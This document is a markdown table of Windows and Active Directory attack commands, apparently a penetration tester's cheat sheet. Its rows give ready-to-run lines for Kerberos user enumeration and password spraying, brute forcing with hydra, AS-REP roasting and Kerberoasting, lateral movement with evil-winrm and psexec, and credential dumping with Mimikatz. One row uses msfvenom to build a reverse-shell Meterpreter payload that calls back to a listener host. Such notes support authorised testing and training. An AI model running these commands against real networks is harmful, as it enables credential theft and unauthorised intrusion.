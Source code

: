 ## Table of useful command

| Tool            | Description / Principal Use                                                | Cmd |
|-----------------|------------------------------------------------------------------------------|-----------------|
| `kerbrute` | Enumerate<br>brute force/password spray | **Enumeration**: `kerbrute userenum -d example.local --dc 192.168.1.10 users.txt`<br><br>**BruteForce**: `kerbrute bruteuser -d example.local --dc 192.168.1.10 administrator passwords.txt`<br><br>`users.txt` file with user list |
| `crackmapexec`<br>| Enum hosts<br>Enum null sess Enum anony access | **Get password Policy**: `cme <IP> -u ‘user’ -p ‘password’ --pass-pol`<br>**DO IT BEFORE… THEN TUNE THE Pwd SPRAY with policy obtained**<br><br>**Username but NO pwd**: `cme smb <dc_ip> -u user.txt -p password.txt --no-bruteforce`<br><br>**Valid Credential**:<br>Users: `cme smb <IP> -u <user> -p ‘<password_from_before>’ --users`<br>Account: `cme smb <IP> -u <user> -p ‘<password_from_before>’ --shares`<br><br>**Enumeration**: `crackmapexec smb <IP>`<br>`crackmapexec smb <IP> -u " p"`<br>`crackmapexec smb <IP> -u ‘a’ -p"`<br><br>**Lateral Movement**: `crackmapexec smb <IP> -u <user> -p <password> -d <domain>` |
| `evil-winrm` | Access to target machine | **Lateral Movement**: `evil-winrm -i 192.168.1.100 -u Administrator -p 'Password123'` |
| `xfreerdp` | Access to target machine | **Lateral Movement**: `xfreerdp /v:192.168.1.100 /u:Administrator /p:'Password123'` |
| `smbclient` | Access resource like SMB/CIFS | **Lateral Movement**: `smbclient.py <domain>/<user>:<Password123>@<IP>`<br><br>`smbclient -L //<dc_ip>/` |
| `Enter-PSSession` | Start interactive session | `Enter-PSSession <domain>`<br>`Enter-PSSession seclogs.resesarch.security.local` |
| `net` | Useful for policy settings | `net accounts`<br>`net user administrator` |
| `runas` | Access to victim | `runas.exe /user:administrator cmd` |
| `PowerView` | Enumeration AD - Powersploit suite | **AS-REP Roasting primary step**: `Get-DomainUser \| Where-Object { $_.UserAccountControl -like "*DONT_REQ_PREAUTH*" }`<br><br>**AD-Kerberoasting**: `Get-NetUser \| Where-Object {$_.servicePrincipalName} \| fl`<br>`setspn -T research -Q /` |
| `winpeas` | Identify misconfigurations, permissions, and vulnerabilities that could be exploited to gain elevated privileges | **Privilege escalation**: `winpeas.exe` |
| `msfvenom` | Used to generate a reverse_tcp payload | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.101 LPORT=4444 -f exe > rTCP.exe` |
| `msfconsole` | Metasploit module | `msfconsole -q`<br>Meterpreter session: `exploit/windows/misc/hta_server` |
| [Mimikatz](https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/) |  | **hashdump**: `hashdump` → Return NTLM Hash of the user<br>**creds_all**: `creds:all` → Extract all possible hashes or credentials from Security Packages<br>**lsa_dump_secrets**: `lsa_dump_secrets` → Extract credential stored into Local Security Authority<br>**lsa_dump_sam**: `lsa_dump_sam` → Extract Security Account Manager and dumps credentials for local accounts |
| `psexec` | Execute command on target machine | `psexec \\\\<target_ip> <cmd_command>`<br>OR use for PTH |
| `wmiexec` | Used to run command on target machine | `python wmiexec.py username:password@target_ip "whoami"` |
| `fping` | Ping ICMP machine to get alive | `fping -a -g 192.168.1.0/24` |
| `GetNPUsers` | Used to find hash | `python GetNPUsers.py <domain>/ -userfile username.txt -format hashcat -outputfile hash_out.txt`<br><br>`rebeus.exe asreproast /format:hashcat` |
| `hashcat` | Used to crack hash | `hashcat -m <algorithm> -a <type_of_attack> hash.txt` |
| `hydra` | Brute force | `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.0.0.89 smb2` |
| `wpscan` | Wordpress vuln | |
| `nmap` | port scanning | `nmap -sC -sV -Pn -p- -oA output.txt <IP_addr> -vv` |
